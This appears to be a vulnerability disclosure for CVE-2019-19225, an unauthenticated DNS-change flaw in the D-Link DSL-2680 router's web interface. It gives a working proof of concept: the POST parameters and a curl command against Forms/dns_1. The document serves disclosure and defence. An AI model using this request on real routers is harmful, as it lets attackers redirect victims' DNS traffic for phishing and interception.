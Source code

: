 ### CVE-2019-19225: DSL-2680 Broken Access Control - Change DNS servers
**CVE:** CVE-2019-19225    
**Vulnerability Type**: Broken Access Control    
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Change the router DNS settings without being authenticated on the admin interface    

**Description:**    
A Broken Access Control vulnerability in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) 
allows an attacker to change DNS servers without being authenticated on the admin interface by submitting
a crafted `Forms/dns_1` POST request.

**Proof Of Concept:**    
As a proof-of-concept a POST request should be made to the following URI: `http://<x.x.x.x>/Forms/dns_1`     
Providing the following parameters:
```
Enable_DNSFollowing=1&dnsPrimary=<arbitrary DNS server>&dnsSecondary=<arbitrary DNS server>
```

Curl PoC (with Google DNS):    
```
curl -d "Enable_DNSFollowing=1&dnsPrimary=8.8.8.8&dnsSecondary=4.4.4.4" -X POST http://192.168.1.1/Forms/dns_1
```
